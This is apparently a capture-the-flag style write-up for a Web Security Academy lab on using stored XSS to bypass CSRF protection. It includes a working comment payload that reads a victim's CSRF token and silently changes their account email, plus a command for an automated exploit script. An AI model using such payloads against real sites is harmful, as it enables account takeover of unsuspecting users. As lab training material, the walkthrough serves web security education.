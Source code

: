 # XSS LAB 24 - Exploiting XSS to bypass CSRF defenses

## Manual Solution

### 1. Access the Lab.
- Open the Web Security Academy lab environment in your browser.

### 2. Logging in
- Log in with the username : `wiener` , password: `peter`.

### 3. Analyzing the update e-mail POST request.
- On the my account page open the network tab and update the email.
- Enter an email and update it.
- You should see a POST request to the endpoint `/my-account/change-email`.
- The POST request contains the `e-mail` and `csrf` payload. 

### 4. Creating a comment:
- Comment: `<script>alert('XSS')</script>`
- Name: `Anything`
- Email: `Anything@anything.com`
- Website: `https://www.anything.com`
- Submit to comment and an alert pop-up appears.
- This confirms that we can inject arbitrary JavaScript code.

### 5. Stealing csrf.
- We can inject and execute any JavaScript code we want.
- Create a comment
    - Name: `Anything`
    - Email: `Anything@anything.com`
    - Website: `https://www.anything.com`
    - Comment: 

    ```js
        <script>
            window.onload = function() {
                let csrf_token = document.getElementsByName("csrf")[0].getAttribute('value');

                let data = new FormData();;
                data.append('csrf', csrf_token);
                data.append('email', 'adsadassd@asafasadsd.com');
                
                fetch('https://[LAB_ID].web-security-academy.net/my-account/change-email', {
                    method: 'POST',
                    body: data
                });
            }
        </script>
    ```
    - When a victim visits the post page this JavaScript code automatically updates e-mail with stolen csrf.

## Automated Solution

### 1. Download the script
### 2. Run the script with the following command:
```sh
python xss_lab_24.py -u <target_url> -p (if you want to use proxy 127.0.0.1:8080)
```